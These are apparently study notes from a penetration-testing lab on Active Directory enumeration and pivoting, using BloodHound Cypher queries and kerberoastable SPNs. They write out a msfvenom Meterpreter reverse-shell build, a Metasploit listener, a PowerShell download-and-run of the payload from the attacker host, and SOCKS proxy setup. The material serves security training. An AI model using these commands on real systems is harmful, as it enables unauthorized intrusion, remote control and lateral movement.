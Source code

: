 ### Services and Sessions

Scenario:
- we'll further enumerate the target network to identify potential attack vectors. First, we'll review all active user sessions on machines. Then, we'll examine user accounts for the existence of *SPN*s. Finally, we'll leverage tools such as Nmap and *CrackMapExec* via a *SOCKS5* proxy to identify accessible services.
- To review active sessions, we'll again use a custom query in BloodHound.
	- Since Cypher is a querying language, we can build a relationship query with the following syntax **(NODES)-[:RELATIONSHIP]->(NODES)**.
- The relationship for our use case is **[:HasSession]**. The first node of the relationship specified by a property is **(c:Computer)** and the second is **(m:User)**. Meaning, the edge between the two nodes has its source at the computer object. We'll use **p** to store and display the data.
	- `MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p`
	- result -> Interestingly, the previously identified domain administrator account *becc*y has an active session on MAILSRV1. If we manage to get privileged access to this machine, we can potentially extract the NTLM hash for this user.
	- The user of the third active session is displayed as a SID. BloodHound uses this representation of a principal when the domain identifier of the SID is from a local machine. For this session, this means that the local *Administrator* (indicated by RID 500) has an active session on INTERNALSRV1.
- Our next step is to identify all kerberoastable users in the domain. To do so, we can use the List all Kerberoastable Accounts pre-built query in BloodHound.
	- shows that apart from *krbtgt, daniela* is also kerberoastable.
		- [Note]:
			- The krbtgt user account acts as service account for the Key Distribution Center (KDC)4 and is responsible for encrypting and signing Kerberos tickets. When a domain is set up, a password is randomly generated for this user account, making a password attack unfeasible. Therefore, we can often safely skip krbtgt in the context of Kerberoasting.
- Examine the SPN for daniela in BloodHound via the Node Info menu by clicking on the node.
	- Figure 15 shows the mapped SPN **http/internalsrv1.beyond.com**. Based on this, we can assume that a web server is running on INTERNALSRV1. Once we've performed Kerberoasting and potentially obtained the plaintext password for *daniela*, we may use it to access INTERNALSRV1.
	- However, as we have stated before, finding an actionable vector should not interrupt our enumeration process. We should collect all information, prioritize it, and then perform potential attacks.
- Therefore, let's set up a *SOCKS5* proxy to perform network enumeration via **Nmap and **CrackMapExec** in order to identify accessible services, open ports, and *SMB* settings.
	1. We'll create a staged Meterpreter TCP reverse shell as an executable file with **msfvenom**. Since we can reuse the binary throughout the domain, we can store it in **/home/kali/beyond**.
		- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.119.5 LPORT=443 -f exe -o met.exe`
	2. Start a multi/handler listener with the corresponding settings in Metasploit. In addition, we'll **set** the option **ExitOnSession** to **fals**e. It specifies that the listener stays active for new sessions without the need to restart it for every incoming session.
		- `sudo msfconsole -q`
		- `use multi/handler`
		- `set payload windows/x64/meterpreter/reverse_tcp`
		- `set LHOST 192.168.119.5`
		- `set LPORT 443`
		- `set ExitOnSession false`
		- `run -j`
	3. Download and execute **met.exe** on CLIENTWK1.
		- `iwr -uri http://192.168.119.5:8000/met.exe -Outfile met.exe`
		- `.\met.exe``
	4. Once session 1 is opened, we can use **multi/manage/autoroute** and **auxiliary/server/socks_proxy** to create a SOCKS5 proxy to access the internal network from our Kali box as we learned in the "The Metasploit Framework" Module.
		- `use multi/manage/autoroute`
		- `set session 1`
		- `run`
		- `use auxiliary/server/socks_proxy`
		- `set SRVHOST 127.0.0.1`
		- `set VERSION 5`
		- `run -j`
	5. Confirm **/etc/proxychains4.conf** settings.
